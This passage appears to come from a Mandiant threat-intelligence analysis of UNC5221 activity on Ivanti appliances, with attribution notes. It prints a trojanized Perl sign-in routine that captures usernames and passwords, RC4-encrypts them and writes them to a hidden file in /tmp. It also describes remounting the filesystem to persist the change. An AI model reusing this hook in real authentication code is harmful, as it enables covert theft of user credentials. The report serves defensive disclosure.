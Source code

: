 The code above contains two subroutines named `encode_base64` and `runSignin`. The former takes a string and Base64 encodes it, while the latter intercepts the sign-in process and upon a successful attempt serializes the saved credentials into the global variable `$ds_g` username and password in a file named `cmdmmap.kuwMW` under the `/tmp` directory. The `<username>=<password>` string is first RC4 encrypted with a hard-coded key and then Base64 encoded with the `encode_base64` routine before being saved into the `cmdmmap.kuwMW` file.

The last code replacement is shown as follows, and it is the same code as above, but it targets a different sign-in scheme that is named EBSL in the code.

```
# *runSigninEBSL
$ds_g2="";
sub runSigninEBSL{
    my $res=DSAuthc::RealmSignin_runSigninEBSL(@_);
    if(@_[1]->{status} != $DSAuth::Reject && 
        @_[1]->{status} != $DSAuth::Restart){
        if($ds_g ne ""){
            use Crypt::RC4;
            CORE::open(FH,">>/tmp/cmdmmap.kuwMW");
            my $dd=RC4("redacted",$ds_g);
            print FH encode_base64($dd)."\n";
            CORE::close(FH);
            $ds_g = ""; 
        }   
    }
    elsif(@_[1]->{status} == $DSAuth::Reject || 
            @_[1]->{status} == $DSAuth::Restart){
        $ds_g = ""; 
    }
    return $res;
}
$ds_e2="";
```

After the changes are made, the malware attempts to write the modified content back to the `DSAuth.pm` file, and if unsuccessful, it will remount the file system as readwrite, write the file, and then mount the file system as readonly again. Finally, all instances of the `cgi-server` process are killed in order for the modified `DSAuth.pm` to be activated.

Attribution
-----------

Mandiant has merged UNC5337 into UNC5221, confirming initial suspicion that these clusters of activity were likely related. Apart from CVE-2023-46805 and CVE-2024-21887, Mandiant has previously observed UNC5221 conducting zero day exploitation of CVE-2023-4966, impacting NetScaler ADC and NetScaler Gateway appliances. UNC5221 has targeted a wide range of countries and verticals during their operations and has leveraged an extensive set of tooling, spanning passive backdoors to trojanized legitimate components on appliances. Additionally, Mandiant previously observed UNC5221 leveraging a likely [ORB network](https://cloud.google.com/blog/topics/threat-intelligence/china-nexus-espionage-orb-networks) of compromised Cyberoam appliances to enable intrusion operations. 

Conclusion
----------
